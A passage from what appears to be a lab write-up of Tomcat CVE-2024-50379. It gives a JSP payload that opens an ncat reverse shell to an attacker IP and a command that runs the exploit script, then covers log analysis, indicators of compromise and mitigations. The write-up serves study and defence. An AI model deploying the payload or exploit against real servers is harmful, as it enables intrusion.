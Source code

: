 7. Observe updated script,  
   `Payload : <%@ page import=\"java.io.*\" %><% Runtime.getRuntime().exec(\"cmd /c start ncat -e  cmd.exe 10.201.109.196 8888\"); %>`
<img width="1279" height="541" alt="7" src="https://github.com/user-attachments/assets/433d0427-31fc-49e2-8eaf-4f09276b2492" />

8. Start listner on port 8888
<img width="691" height="155" alt="8" src="https://github.com/user-attachments/assets/58444a57-f307-43f4-9e97-36433fb67081" />

9. Execute payload/script with folowing command,  
`python3 ApachTomcat_CVE-2024-50379_ConditionalCompetitionToRce.py -u 10.201.51.150:8080`
<img width="1244" height="54" alt="9" src="https://github.com/user-attachments/assets/5efa17be-0943-42dd-8a58-7799c6a73c3b" />

10. Observe code executed and we got reverse shell
<img width="880" height="730" alt="10" src="https://github.com/user-attachments/assets/d00a9fb2-e5a5-4651-a6ba-5eb0572a1891" />

---

## Log Analysis

### Where to Look

- **Tomcat Access Logs:** Tracks HTTP(S) requests, including file uploads and suspicious repeated requests.  
                          `C:\Program Files\Apache Software Foundation\Tomcat 10.1\logs\access_log_name.txt`
- **Tomcat System Logs:** May indicate unusual compilation activity or file system errors during JSP handling.
- **Sysmon/EDR Solutions:** Useful for detecting abnormal process launches or file modifications outside expected patterns[4][11].

### Indicators of Compromise

- Multiple rapid POST requests to upload endpoints
- Access to unexpected JSP files in writable directories
- Execution of newly-uploaded JSP scripts
- Unusual compilation errors or warnings in `catalina.out`

---

## Mitigation

1. **Upgrade Tomcat:**  
   - Patch to Tomcat 11.0.2+, 10.1.34+, or 9.0.98+ where this vulnerability is fixed.

2. **Secure Configuration:**
   - Disable write access on the default servlet whenever possible, as this reduces the attack surface.
   - On Java 8 or 11: Set the `sun.io.useCanonCaches` system property to `false` (ensures correct path canonicalization).
   - On Java 17: Verify `sun.io.useCanonCaches` is either unset or set to `false`.
   - On Java 21+: The risk is mitigated by default as the problematic cache has been removed.
